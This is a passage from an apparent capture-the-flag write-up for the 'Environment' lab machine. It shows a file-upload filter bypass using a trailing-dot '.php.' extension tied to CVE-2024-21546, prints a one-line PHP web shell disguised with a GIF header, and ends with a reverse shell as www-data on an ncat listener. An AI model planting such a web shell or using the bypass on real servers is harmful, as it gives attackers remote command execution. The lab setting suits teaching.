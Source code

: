![Invalid file detected](/assets/img/img_environment/Environment-1746330512752.png)

After doing some testing I've come to the conclusion that there's a file content filter as well as a file extension blacklist.

Looking around we find that [this cve](https://nvd.nist.gov/vuln/detail/CVE-2024-21546) states that if we upload a file with the following extension: `.php.`, it simply gets uploaded as `.php`.

```json
{"url":"http:\/\/environment.htb\/storage\/files\/w1ld.php","uploaded":"http:\/\/environment.htb\/storage\/files\/w1ld.php"}
```

So if we upload the following file as `w1ld.php.`:

```php
GIF8
<?php system($_REQUEST['cmd'])?>
```

and visit the resulting `url` with the parameter of `cmd=id` we get the following:
![Command execution via web shell](/assets/img/img_environment/Environment-1746356700416.png)

let's upload a revshell from [revshells](https://revshells.com)

And we get a call back on our listener!

```bash
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.129.238.73.
Ncat: Connection from 10.129.238.73:51504.
whoami
www-data
```
